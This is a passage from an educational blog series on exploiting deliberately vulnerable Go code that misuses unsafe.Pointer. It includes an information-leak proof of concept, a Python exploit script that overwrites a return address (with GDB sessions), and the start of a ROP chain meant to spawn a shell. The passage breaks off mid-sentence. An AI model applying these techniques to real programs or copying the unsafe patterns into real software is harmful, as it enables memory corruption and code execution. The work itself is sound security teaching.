variables. We call this buffer overflow.

This is a visualization of a stack frame for a function:


\textbf{Go memory safety}

Go employs some safety techniques that prevent buffer overflows, among other vulnerabilities. The type system strictly
encodes the buffer length of variables, e.g. we have [8]byte and [16]byte as completely different types with no
casting from the short buffer to the long buffer. This prevents the misuse of memory regions which will eventually lead
to a potentially exploitable buffer overflow.

Dangerous operations common to C programs such as pointer casting and the infamous, no-bounds-checking gets() function
are therefore impossible with safe Go programs.

However, there exists the unsafe package and with it the unsafe.Pointer type [[1]](references). This pointer type 
is special in that it can participate in type operations that would otherwise be forbidden:

 1. we can cast any pointer type into unsafe.Pointer
 2. we can cast unsafe.Pointer into any pointer type
 3. we can cast unsafe.Pointer into uintptr, which is essentially the address as an integer
 4. we can cast uintptr into unsafe.Pointer
 
Points 1 and 2 allow type-casting between arbitrary types, and points 3 and 4 allow pointer arithmetic. With these
powers however comes great responsibility: using them removes the safety net of Go, meaning we're back at the security
madness of plain C code. The unsafe package must therefore be used only with extreme caution.

In the following proof of concepts, we will demonstrate some of the potential vulnerabilities that can be introduced
surprisingly fast when using unsafe.Pointer.


\textbf{Information leakage POC}

In this short proof of concept, let's assume there is a buffer of harmless, public data. It is called harmlessData
and it might store e.g. the version of the program, or the public display name of a logged-in user.

Behind it, there is a declaration of a secret data buffer. For the sake of the argument, imagine that it might be some
private information about a logged-in user, e.g. their password hash or a certificate private key.

func main() 
    // this could be some public information, e.g. version information
    harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
    // however, this could be critical private information such as a private key
    secret := [17]byte'l', '3', '3', 't', '-', 'h', '4', 'x', 'x', '0', 'r', '-', 'w', '1', 'n', 's', '!'
    // ...


Next, the buffer is cast. Using the unsafe.Pointer type, we can do any type casting we want, defeating the Go memory
safety measures. Here, we cast the buffer into a new byte buffer, but with a bigger size. After this, we print the new
(dangerous) buffer.

    // ...
    // (accidentally) cast harmless buffer into a new buffer type of wrong size
    var dangerousData = (*[8+17]byte)(unsafe.Pointer(harmlessData[0]))
    // print (misused) buffer
    fmt.Println(string((*dangerousData)[:]))


Running this script will read the newly created, dangerous buffer. The length information will be inappropriate, and 
thus the program will read memory after the end of the harmless data, revealing the secret data:

go run main.go
AAAAAAAAl33t-h4xx0r-w1ns!

This is an information leak, because we read and send more data than we wanted.

But how could this ever happen? Let's assess a threat model!


\textbf{Threat model}

Admittedly, when the buffer definition and cast are located very close to each other, it is hard to imagine that such
a bug would go unnoticed in a production software project. But I would argue that it is far less unlikely for such 
mistakes to happen if we add some human factors into the equation.

Imagine you work at a large software company which is building some application that has a client/server communication
model. The development of the server and client applications has been separated into different teams, and you work in
the server team. Now, at some meeting a couple of months ago, you and your colleagues drafted and agreed upon an API
specification for the binary communications protocol that you want to use between the client and server. The protocol
features a request definition that the client sends to the server. The request data is serialized into a binary stream.
Its structure looks like this:

![Binary protocol structure](assets/protocol.svg)

It is a super simple protocol that doesn't even feature variable-length messages. It is just a static byte object with
a version, message type, and the actual data. Similar to the request, there is also a response type that looks the same.
Now, you and your team printed the diagram weeks ago and put it on your wall to ensure all developers can see it promptly.
But what none of you realized is that the client development team agreed on a new version of the protocol, which has a
256 bytes data field to reduce the over-the-wire packet size.

When you implement the server, you are now adding a simple buffer to store request and response objects for later
processing. You look at the diagram on the wall and determine that the size of protocol messages is guaranteed to be
exactly 516 byte, so initialize a [516]byte variable. To avoid unnecessary copying of the data structure before
reaching your buffering function, your team has decided to pass along a reference to the request object. You are using
an unsafe.Pointer reference to simplify casting operations. The function you are implementing looks like this:

go
func bufferrequest(req unsafe.Pointer) 
    var buf [516]byte
    buf = *(*[516]byte)(req)
    // use buf for some operations



Now, the problem is that the req parameter, referencing the source data structure somewhere in memory, was created
with the new protocol version in mind, i.e. the request packet only takes 260 bytes. But your new buffer is reading
516 bytes, that is 256 bytes too many! When the buffer is sent somewhere else, or shown to the user, you might read
and publish 256 extra bytes, containing potentially secret information.

A similar thing could happen in the other direction, when the response object is used.

When you push this new function, and your team does a thorough code review, all your colleagues see the buffer allocation,
immediately look at the wall and verify that the request data packet indeed takes exactly 516 bytes. None of them catches
the mistake and the software is shipped.

The problem was not a miscalculation, but a miscommunication within the organization, combined with a lack of defensive
programming techniques and a missing mindset of the dangers that come with the use of unsafe.Pointer references.

By the way, reading and sending more data than the correct amount might make you remember one of the most dangerous bugs
of recent times: the famous Heartbleed bug in OpenSSL [[3]](references), where a missing bounds check cause a read
buffer overrun and leaked private information from the process memory. However, this example is different in that the
length is **not provided by an attacker**. The length information that OpenSSL failed to verify was supplied as part of
the input data to OpenSSL. Here, I crafted an example where the length mismatch is statically coded into the binary
because of a mistake the programmers made. A user-supplied length overrun is much more dangerous because it does not
cause problems in every run of the software, which makes it much harder to detect.

An example more similar to the Heartbleed bug would require a protocol definition with a length field, and a server
application crafting a buffer using that length information. This is possible when manually crafting slices in Go using
the reflect.SliceHeader structure, and we will explore that in the next part of this series!


\textbf{Proof of concept code}

I published the proof of concept code for this post, as well as the code for the following parts 2 to 4, in a Github
repository:

If you'd like to check out the complete code and run it for yourself, you can save yourself some typing by using this
repository.



%% -----------------------------------------------------------------------------

\section{Part 2}

In this second part, we will evolve from reading memory to redirecting the code flow. This means we will be controlling
what is being executed. 

 Buffer overflow, part 2: controlling the return address

In the first part we learned that local variables are located on the stack at addresses just below the return address.
When the function returns, it will increment the stack pointer to the point where no space for local variables is used,
effectively freeing them. The stack pointer rsp will then point to the stored return address.

Now comes the ret machine instruction. It is actually equivalent to pop rip or even mov rip, [rsp]; add rsp, 8.
The processor will fetch the address stored on the top of the stack, put it into the instruction pointer register, and
continue execution at that address.

![Return to saved RIP](assets/return.svg)

If we can somehow change the return address stored on the stack to an address we can control, we can change the program
control flow.


 Code flow redirection POC

To see how we can actually exploit this, we will have a look at a proof of concept exploit with an example program.

First, we create a win function to be compiled into the binary. We can use it as a target to redirect the code
flow to. This is a good first step in learning code flow exploitation. The function does not do very much, it simply prints
"win!" so that we know we did good:

go
func win() 
    fmt.Println("win!")



The main function of the program looks like this:

go
// initialize the reader outside of the main function to simplify POC development, as
// there are less local variables on the stack.
var reader = bufio.NewReader(os.Stdin)

func main() 
    // this is a harmless buffer, containing some harmless data
    harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'

    // create a slice of length 512 byte, but assign the address of the harmless data as
    // its buffer. Use the reflect.SliceHeader to change the slice
    confusedSlice := make([]byte, 512)
    sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
    harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
    sliceHeader.Data = harmlessDataAddress

    // now read into the confused slice from STDIN. This is not quite as bad as a gets()
    // call in C, but almost. The function will read up to 512 byte, but the underlying
    // buffer is only 8 bytes. This function is pretty much the complete vulnerability
    ,  = reader.Read(confusedSlice)



There is a buffer of length 8 bytes with some harmless data. It is created as a local variable, which means it will live
on the stack at an address a bit lower than the return address.

Next, we will simulate an almost-as-bad coding practice as calling the gets() function in a C code. We will
deliberately create a buffer overflow vulnerability. Recall that Go has some safety features that prevent buffer
overflows, so for this to work we are using the unsafe.Pointer type.

We initialize a slice with initial length and capacity 512 bytes. The slice is actually placed on the heap, not the
stack, but that is irrelevant for the vulnerability. Next, using the reflect.SliceHeader structure we can extract
the slice header data structure that Go uses internally to represent the slice. It looks like this:

go
type SliceHeader struct 
	Data uintptr
	Len  int
	Cap  int



The length and capacity are 512 in this case, and Data is a pointer to the underlying array that contains the elements
in the slice. Now, using the magic of unsafe pointers we can obtain the address of the 8 byte harmless buffer, cast it
into a uintptr address value and replace the Data pointer with that address. This way, the slice will now point to the
small buffer as its underlying array, but the length will still be set to 512 bytes.

This is a misuse of the unsafe package and it creates a very dangerous situation: Calling reader.Read() in the next
statement will fill the slice with data from standard input, but the function thinks it is safe to read up to 512 bytes
while the underlying array is only 8 bytes long. This is not completely identical to the unbounded gets() call,
but the effect is the same as the confused slice is more than long enough to provide an attack surface.

To sketch a threat model, recall the binary communication protocol from the last part of this blog series. We mentioned
that in order to have dynamic packet lengths, we would add a length field. If we write the code for the server application
without the dangers of explicitly creating slice headers in mind, we could simply use the length coming from the request
data as length for our slice. This would create a situation similar to the one above, and because the length would be
set by an attacker, a bit closer to the Heartbleed bug [[1]](references) as well.


 Crafting a binary exploit

Now, how can we use this buffer overflow vulnerability and create an actual exploit that will put a meaningful address
into the stack at exactly the right position to be loaded into the instruction pointer? For this, we will use GDB.

Playing around with the program shows an input prompt that reads some data and then seems to just swallow it:

shell
 ./main
Hello World



However, putting in a large string will crash the program. That is a pretty good hint that there is potential to
exploit a buffer overflow.

shell
 ./main
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
unexpected fault address 0x0
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x4925d1]

goroutine 1 [running]:
runtime.throw(0x4c1077, 0x5)
	/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000110f50 sp=0xc000110f20 pc=0x42ebd2
runtime.sigpanic()
	/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000110f80 sp=0xc000110f50 pc=0x4429dc
runtime: unexpected return pc for main.main called from 0x4141414141414141
stack: frame=sp:0xc000110f80, fp:0xc000110f88 stack=[0xc000110000,0xc000111000)
000000c000110e80:  0000000000000001  0000000000000000
000000c000110e90:  000000c000110ed0  0000000000430404 <runtime.gwrite+164>
000000c000110ea0:  0000000000000002  00000000004c0dd6
000000c000110eb0:  0000000000000001  0000000000000001
000000c000110ec0:  000000c000110f3d  0000000000000003
000000c000110ed0:  000000c000110f20  0000000000430c28 <runtime.printstring+120>
000000c000110ee0:  000000000042ed97 <runtime.fatalthrow+87>  000000c000110ef0
000000c000110ef0:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
000000c000110f00:  000000000042ebd2 <runtime.throw+114>  000000c000110f20
000000c000110f10:  000000c000110f40  000000000042ebd2 <runtime.throw+114>
000000c000110f20:  000000c000110f28  0000000000458500 <runtime.throw.func1+0>
000000c000110f30:  00000000004c1077  0000000000000005
000000c000110f40:  000000c000110f70  00000000004429dc <runtime.sigpanic+972>
000000c000110f50:  00000000004c1077  0000000000000005
000000c000110f60:  4141414141414141  0000000000000000
000000c000110f70:  4141414141414141  00000000004925d1 <main.main+177>
000000c000110f80: <4141414141414141 >4141414141414141
000000c000110f90:  4141414141414141  4141414141414141
000000c000110fa0:  4141414141414141  4141414141414141
000000c000110fb0:  4141414141414141  4141414141414141
000000c000110fc0:  4141414141414141  4141414141414141
000000c000110fd0:  4141414141414141  4141414141414141
000000c000110fe0:  4141414141414141  4141414141414141
000000c000110ff0:  4141414141414141  4141414141414141
main.main()
	/tmp/code-injection/main.go:28 +0xb1 fp=0xc000110f88 sp=0xc000110f80 pc=0x4925d1


In the resulting stack trace, we can even see a lot of 0x41 values, which is the ASCII value for the letter A.

It is time to debug the program with GDB and see where the instruction pointer actually points to after the function
return. This way, we can adjust the number of bytes that we need to scramble into the program before we can put our
exploit payload, overwriting the return address on the stack.

To do this, I create a Python script to produce the exploit payload:

python
!/usr/bin/env python2

pattern = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV"
print(pattern)


The pattern consists of letters in ascending order. This is a pattern that is easily recognizable in the hex outputs
of GDB and really useful to determine the return address offset on the stack.

In GDB, start the program like this:

gdb
gdb-peda run <<<(./exploitwin.py)
[...]
Stopped reason: SIGSEGV
0x00000000004925d1 in main.main () at main.go:28


We pipe the output of the exploit script into the program, and we see that the program receives a SIGSEGV segmentation
fault signal. This signal means that the processor tried to read or write data at an invalid address, here it's because
it tried to execute the ret instruction and jump to an address consisting of our ASCII characters. To see
which address the CPU would jump to, we need to look at the top of the stack:

gdb
gdb-peda x/8wx rsp
0xc000068f80:	0x4f4f4f4f	0x50505050	0x51515151	0x52525252
0xc000068f90:	0x53535353	0x54545454	0x55555555	0x56565656


Using the x command, we inspect 8 words of data (each word is 4 bytes in GDB) and print them in hexadecimal form. The
first two blocks (8 bytes total) are the 64-bit word that the CPU wants to put into the rip register. We
can see that it is 0x4f4f4f4f50505050. Looking at the ASCII table, we see that it corresponds to OOOOPPPP, and
therefore we need to cut the padding just before the O's and replace those eight characters with the address we want to
jump to.

Just before closing GDB, let's quickly use it to find the address of our specially crafted win function. First, try
to directly access its address:

shell
gdb-peda x main.win
No symbol "main.win" in current context.


We see that there doesn't seem to be any function called win. This is because the Go compiler decided to inline the
function (we can see the inlining decisions by compiling with go build -gcflags='-m'). Let's instead just directly
jump to the address of the print call that will show us the win message. We search for it in the disassembly of the
main function:

gdb
gdb-peda disassemble main.main
Dump of assembler code for function main.main:
   0x0000000000492520 <+0>:	mov    rcx,QWORD PTR fs:0xfffffffffffffff8
   0x0000000000492529 <+9>:	cmp    rsp,QWORD PTR [rcx+0x10]
   0x000000000049252d <+13>:	jbe    0x49262d <main.main+269>
   0x0000000000492533 <+19>:	sub    rsp,0x78
   0x0000000000492537 <+23>:	mov    QWORD PTR [rsp+0x70],rbp
   0x000000000049253c <+28>:	lea    rbp,[rsp+0x70]
   0x0000000000492541 <+33>:	mov    rax,QWORD PTR [rip+0x48e10]         0x4db358
   0x0000000000492548 <+40>:	mov    QWORD PTR [rsp+0x40],rax
   0x000000000049254d <+45>:	lea    rax,[rip+0xe82c]         0x4a0d80
   0x0000000000492554 <+52>:	mov    QWORD PTR [rsp],rax
   0x0000000000492558 <+56>:	mov    QWORD PTR [rsp+0x8],0x200
   0x0000000000492561 <+65>:	mov    QWORD PTR [rsp+0x10],0x200
   0x000000000049256a <+74>:	call   0x443670 <runtime.makeslice>
   0x000000000049256f <+79>:	mov    rax,QWORD PTR [rsp+0x18]
   0x0000000000492574 <+84>:	mov    QWORD PTR [rsp+0x58],rax
   0x0000000000492579 <+89>:	mov    QWORD PTR [rsp+0x60],0x200
   0x0000000000492582 <+98>:	mov    QWORD PTR [rsp+0x68],0x200
   0x000000000049258b <+107>:	lea    rax,[rsp+0x40]
   0x0000000000492590 <+112>:	mov    QWORD PTR [rsp+0x58],rax
   0x0000000000492595 <+117>:	mov    rax,QWORD PTR [rip+0xd3ce4]         0x566280 <main.reader>
   0x000000000049259c <+124>:	mov    QWORD PTR [rsp],rax
   0x00000000004925a0 <+128>:	mov    rax,QWORD PTR [rsp+0x58]
   0x00000000004925a5 <+133>:	mov    QWORD PTR [rsp+0x8],rax
   0x00000000004925aa <+138>:	mov    QWORD PTR [rsp+0x10],0x200
   0x00000000004925b3 <+147>:	mov    QWORD PTR [rsp+0x18],0x200
   0x00000000004925bc <+156>:	call   0x46b740 <bufio.(*Reader).Read>
   0x00000000004925c1 <+161>:	cmp    BYTE PTR [rsp+0x40],0x2a
   0x00000000004925c6 <+166>:	je     0x4925d2 <main.main+178>
   0x00000000004925c8 <+168>:	mov    rbp,QWORD PTR [rsp+0x70]
   0x00000000004925cd <+173>:	add    rsp,0x78
=> 0x00000000004925d1 <+177>:	ret
   0x00000000004925d2 <+178>:	nop
   0x00000000004925d3 <+179>:	xorps  xmm0,xmm0
   0x00000000004925d6 <+182>:	movups XMMWORD PTR [rsp+0x48],xmm0
   0x00000000004925db <+187>:	lea    rax,[rip+0xe65e]         0x4a0c40
   0x00000000004925e2 <+194>:	mov    QWORD PTR [rsp+0x48],rax
   0x00000000004925e7 <+199>:	lea    rax,[rip+0x491b2]         0x4db7a0
   0x00000000004925ee <+206>:	mov    QWORD PTR [rsp+0x50],rax
   0x00000000004925f3 <+211>:	mov    rax,QWORD PTR [rip+0xd3c9e]         0x566298 <os.Stdout>
   0x00000000004925fa <+218>:	lea    rcx,[rip+0x4a95f]         0x4dcf60 <go.itab.*os.File,io.Writer>
   0x0000000000492601 <+225>:	mov    QWORD PTR [rsp],rcx
   0x0000000000492605 <+229>:	mov    QWORD PTR [rsp+0x8],rax
   0x000000000049260a <+234>:	lea    rax,[rsp+0x48]
   0x000000000049260f <+239>:	mov    QWORD PTR [rsp+0x10],rax
   0x0000000000492614 <+244>:	mov    QWORD PTR [rsp+0x18],0x1
   0x000000000049261d <+253>:	mov    QWORD PTR [rsp+0x20],0x1
   0x0000000000492626 <+262>:	call   0x48bf10 <fmt.Fprintln>
   0x000000000049262b <+267>:	jmp    0x4925c8 <main.main+168>
   0x000000000049262d <+269>:	call   0x459ae0 <runtime.morestacknoctxt>
   0x0000000000492632 <+274>:	jmp    0x492520 <main.main>
End of assembler dump.


It might not be completely obvious where the function starts, but given the call to win that we added to stop the
compiler from removing the function altogether was inside an if-statement, it is reasonable that the function would
be at the target of some conditional jump instruction (je in line <+161> here): it is at line <+178>, starting with
a NOP instruction. Skipping the NOP, we can use line <+179> or address 0x00000000004925d3 as target.

So let's update the exploit code to use the correct padding and the target address:

python
!/usr/bin/env python2

import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
winp = struct.pack("Q", 0x4925d3)

print(padding + winp)


Running the program with this input creates the following output:

shell
 ./exploitwin.py | ./main
win!
unexpected fault address 0xc000072000
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x2 addr=0xc000072000 pc=0xc000072000]

goroutine 1 [running]:
runtime.throw(0x4c1077, 0x5)
	/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000070fd8 sp=0xc000070fa8 pc=0x42ebd2
runtime: unexpected return pc for runtime.sigpanic called from 0xc000072000
stack: frame=sp:0xc000070fd8, fp:0xc000071008 stack=[0xc000070000,0xc000071000)
000000c000070ed8:  000000c000070fbc  000000c000070f18
000000c000070ee8:  000000000043023b <runtime.recordForPanic+299>  0000000000590565
000000c000070ef8:  00000000004c0dd6  0000000000000001
000000c000070f08:  0000000000000001  0000000000000000
000000c000070f18:  000000c000070f58  0000000000430404 <runtime.gwrite+164>
000000c000070f28:  0000000000000002  00000000004c0dd6
000000c000070f38:  0000000000000001  0000000000000001
000000c000070f48:  000000c000070fbc  000000000000000c
000000c000070f58:  000000c000070fa8  0000000000430c28 <runtime.printstring+120>
000000c000070f68:  000000000042ed97 <runtime.fatalthrow+87>  000000c000070f78
000000c000070f78:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
000000c000070f88:  000000000042ebd2 <runtime.throw+114>  000000c000070fa8
000000c000070f98:  000000c000070fc8  000000000042ebd2 <runtime.throw+114>
000000c000070fa8:  000000c000070fb0  0000000000458500 <runtime.throw.func1+0>
000000c000070fb8:  00000000004c1077  0000000000000005
000000c000070fc8:  000000c000070ff8  00000000004429dc <runtime.sigpanic+972>
000000c000070fd8: <00000000004c1077  0000000000000005
000000c000070fe8:  0000000000000000  000000c000072000
000000c000070ff8:  0000000000000000
runtime.sigpanic()
	/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000071008 sp=0xc000070fd8 pc=0x4429dc


Quite obvious from the big stack trace, we see that the program crashed. But more importantly, we see the win! output
right at the top, which means that the win function was indeed executed. We don't actually care about the program
crash, the objective was to decide which code should be executed and this was successful!



%% -----------------------------------------------------------------------------

\section{Part 3}

 Executing code on the stack

Following the last part of the series, you might have thought: what if we pipe actual machine instructions into the
program, and then use the address of this machine code on the stack (inside the buffer receiving the input data) instead
of the address of the win function. This way, we could execute arbitrary code of our choice, including just spawning
a shell and thus having a universal interface to run more code.

Indeed, this was possible not too much time ago. One would send the padding necessary to fill up the input buffer and
stack up to the stored return pointer, then an address a bit later in the stack, and then the machine code needed to
start a shell. If the padding was long enough, it would also be possible to put the code into the padding, reducing the
overall input data size.

Because the stack is always a bit unpredictable (for example, environment variables might get pushed onto the stack and
they could be different on each program run), the exact address of the shell code could vary slightly. And if we would
miss it by even a byte, the code would become corrupted and stop working.

To mitigate this, we could send a lot of NOP instructions (opcode 0x90 [[2]](references)) between the address and the shell code, and
then try to jump into the middle of those instructions. This way, we don't have to hit the exact correct byte, instead
the exploit also works if we jump to an address that is a few bytes before or after. This is because all possible
target addresses (within some range) would be NOP instructions, and the CPU would just follow along all NOP
instructions until it reaches the shell code and executes it. This technique is called the nop slide [[3]](references), because the CPU in
a way slides down a slope of NOPs.

The payload that we would inject could look like this:

![Nop Slide Inject Payload](assets/payload.svg)


 DEP and ASLR: mitigations against buffer overflows

Unfortunately, these days it isn't quite that easy anymore. Operating system developers have done a lot of work to
implement countermeasures against this simple code-on-the-stack exploit.

Data Execution Prevention [[7]](references) is a technique which assigns different permissions to the memory pages used by a program. There
are pages that can only be read (like literals and constants), pages that can be read and executed (like the program
instructions itself) and pages that can be written (e.g. the stack or heap). But the pages that can be written to can
not be executed! Different names for this are RW (read xor write) or NX (Non-eXecutable memory). This technique has been in
use by all major operating systems for years, and it effectively prevents us from writing our code onto the stack and
then executing it.

Another mitigation is Address Space Layout Randomization (ASLR) [[1]](references), which randomizes the addresses of dynamically linked
libraries, or maybe even functions inside the binary itself, when loading it into the RAM. This way, we can not use GDB
to analyze the binary locally and determine addresses where we might jump to, because on the exploit target (possibly
remote) the addresses would be completely different.

Fortunately for this proof of concept, Go does not really use ASLR. The binaries produced by the Go compiler have
deterministic addresses, and at least this small program gets statically linked so there are no dynamic libraries that
could be loaded at different addresses. We can see this by running some analysis on the binary file:

shell
 readelf -l main

Elf file type is EXEC (Executable file)
Entry point 0x45d310
There are 7 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
                 0x0000000000000188 0x0000000000000188  R      0x1000
  NOTE           0x0000000000000f9c 0x0000000000400f9c 0x0000000000400f9c
                 0x0000000000000064 0x0000000000000064  R      0x4
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x00000000000926ad 0x00000000000926ad  R E    0x1000
  LOAD           0x0000000000093000 0x0000000000493000 0x0000000000493000
                 0x00000000000bd151 0x00000000000bd151  R      0x1000
  LOAD           0x0000000000151000 0x0000000000551000 0x0000000000551000
                 0x0000000000015240 0x00000000000414c8  RW     0x1000
  GNUSTACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x8
  LOOS+0x5041580 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x8

 Section to Segment mapping:
  Segment Sections...
   00
   01     .note.go.buildid
   02     .text .note.go.buildid
   03     .rodata .typelink .itablink .gosymtab .gopclntab
   04     .go.buildinfo .noptrdata .data .bss .noptrbss
   05
   06

 ldd main
the program is not dynamically linked



 Return2libc

But wait - didn't we in fact execute code in the last part of the series? Yes, we did! But it was code that was already
contained in the binary. We executed the win function that was compiled into the binary. This means that we didn't
jump to code that was on the stack (an RW-page), but instead we jumped into the .text segment of the program where all
the other machine instructions live, too (an RX-page).

By reusing code that is already in the binary, we can defeat Data Execution Prevention.

A generalization of this technique is called return2libc, where we would now jump to a function contained in the huge
C standard library libc. We could e.g. use the system function that allows us to execute arbitrary commands. However,
as mentioned before the binary produced by the Go compiler is statically linked, and it doesn't link against the libc
C library. Thus, we cannot use return2libc. And even if it were linked against libc, ASLR would do a decent job at
making it very hard to find out the correct addresses of libc functions.


 Return oriented programming

We need a different approach: Return Oriented Programming (ROP). With ROP, we try to jump into code that is contained
in the binary just as with return2libc, but we jump to a location that contains preferably only one or at most a few
machine instructions and a return instruction.

Recall that the return instruction ret actually is a simple pop rip. This means that if we execute ret, and then
another ret, we will simply fetch the next processor word from the stack and jump to that address. Now, this enables
us to chain together small pieces of code by putting the addresses of these code snippets on the stack, one after
another. The important requirements for this are that the code snippets end with a ret instruction, and do not modify
the stack pointer rsp, because modifying the stack pointer would destroy our chain of code snippets. Using these
snippets, we can craft a program almost like manually coding in assembly, but with only a limited set of assembly
instructions available (the ones we find in the binary).

With these code snippets, we can do arbitrary stuff, including calling syscalls. Syscalls give us the power to e.g.
read data into a buffer, or change the execution permissions of memory pages used by the program.

To find suitable code snippets, we can either manually decompile the complete binary (very tedious), or use a helper
tool like ROPgadget or Ropper. I used Ropper here:

% github sashs/Ropper no-readme %

We analyze the short Go program known from the last part:

go
// initialize the reader outside of the main function to simplify POC development, as there are less local variables
// on the stack.
var reader = bufio.NewReader(os.Stdin)

func main() 
    // this is a harmless buffer, containing some harmless data
    harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'

    // create a slice of length 512 byte, but assign the address of the harmless data as its buffer.
    // use the reflect.SliceHeader to change the slice
    confusedSlice := make([]byte, 512)
    sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
    harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
    sliceHeader.Data = harmlessDataAddress

    // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
    // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
    // vulnerability, nothing else needed
    ,  = reader.Read(confusedSlice)



The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:

shell
ropper --file main --search "%"
0x000000000041996b: adc al, 0; ret;
0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret;
0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret;
0x00000000004614fa: adc al, 0x24; call rcx;
[...]


Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
exploit chain, so I had to dig in using my own hands.


 POC: Spawning a shell

Putting the ROP techniques from above into play, the plan looks like this:

 1. Set the executable and writable flags for a memory page belonging to the program
 2. Write some code that spawns a shell into the page
 3. Jump to that code

The following steps are based on the excellent blog articles [[4, 5, 6]](references). Give them a read for even more details on ROP
chains and exploit development.


**Step 1: Get a memory page with RWX permissions**

To do this, we use the mprotect syscall. Its man page explains the usage:

c
int mprotect(void *addr, sizet len, int prot);

mprotect() changes the access protections for the calling process's memory pages containing any part of the address
range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.


This means we need to provide the address of the region we want to change, the desired size, and the permission to set.
These permissions work similar to file system permissions, so the integer value 7 means RWX.

I use the Python Exploit Development Assistance (PEDA) for GDB. Follow the instructions on the
[PEDA project page](https://github.com/longld/peda) to install it.

With it, we can use the vmmap command in GDB PEDA to find a suitable memory page:

gdb
gdb-peda vmmap
Start              End                Perm	Name
0x00400000         0x00493000         r-xp	main
0x00493000         0x00551000         r--p	main
0x00551000         0x00567000         rw-p	main
0x00567000         0x00593000         rw-p	[heap]
[...]


The first (r-x) page is the one containing the code. I choose the third page, starting at 0x00551000. It already has
the RW permissions, but we need to add X to make it executable. We can choose 0x100 (256 bytes) as size as this will
be more than enough space for the shell code.

How do syscalls work? The general idea is to execute the syscall instruction. Before that, we need to put the syscall
number into rax, and set up the arguments to the function. The [Linux x8664 syscall table](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall64.tbl)
shows that the mprotect syscall has number 10 (0xa).

We set up the parameters according to the x8664 calling convention: the first parameters get passed in registers rdi,
rsi, rdx, rxc, r8, r9, the remaining ones through the stack. The return value is passed back in rax. This means
that we will need to set up the following situation when executing the syscall instruction:

 - rax: 0xa
 - rdi: 0x00551000
 - rsi: 0x100
 - rdx: 0x7

For this, we now need to find some suitable gadgets in the huge output of Ropper. First, let's try to set rax to 10.
There is probably no mov rax, 10, so instead what could be useful is a mov rax, 0 / sub rax, rax / xor rax, rax
to set rax to zero, and then add rax, 1 to slowly increase it up to 10.

I could find a mov eax, 0; ret; gadget at address 0x000000000045b900 and debugging in GDB showed that this is indeed
enough to set the whole rax to zero (eax is the lower 32 bit of the 64 bit register rax). Then, combining it with the
